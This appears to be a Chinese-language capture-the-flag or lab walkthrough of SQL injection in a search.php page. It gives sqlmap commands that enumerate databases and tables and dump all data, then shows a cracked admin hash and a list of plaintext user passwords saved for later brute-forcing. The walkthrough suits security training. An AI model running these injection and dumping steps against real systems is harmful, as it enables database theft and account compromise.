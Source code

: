 只有 `search.php` 存在 sql 注入漏洞
![[QQ_1724300321333.png]]

爆库
```sh
sqlmap -r search.txt --dbs
```

```
[*] information_schema
[*] Staff
[*] users
```

爆表
```sh
sqlmap -r search.txt -D Staff --tables
```

```
+--------------+
| StaffDetails |
| Users        |
+--------------+
```

爆数据
```sh
sqlmap -r search.txt -D Staff --dump-all
```

![[QQ_1724302066355.png]]
字典选项那里选择 1，sqlmap 自带字典，其它选 y

![[QQ_1724302164620.png]]

得到 admin 密码
```
+--------+----------------------------------+----------+
| UserID | Password                         | Username |
+--------+----------------------------------+----------+
| 1      | 856f5de590ef37314e7c3bdf6f8a66dc | admin    |
+--------+----------------------------------+----------+
```

将其解密，获得：
```
transorbital1 | admin
```

根据上述思路，在数据库 `users` 的 表中`UserDetails ` 中发现了大量用户名和密码，可以先存下来，为后续爆破作准备
```
+-----------+---------------+
| username  | password      |
+-----------+---------------+
| marym     | 3kfs86sfd     |
| julied    | 468sfdfsd2    |
| fredf     | 4sfd87sfd1    |
| barneyr   | RocksOff      |
| tomc      | TC&TheBoyz    |
| jerrym    | B8m#48sd      |
| wilmaf    | Pebbles       |
| bettyr    | BamBam01      |
| chandlerb | UrAG0D!       |
| joeyt     | Passw0rd      |
| rachelg   | yN72#dsd      |
| rossg     | ILoveRachel   |
| monicag   | 3248dsds7s    |
| phoebeb   | smellycats    |
```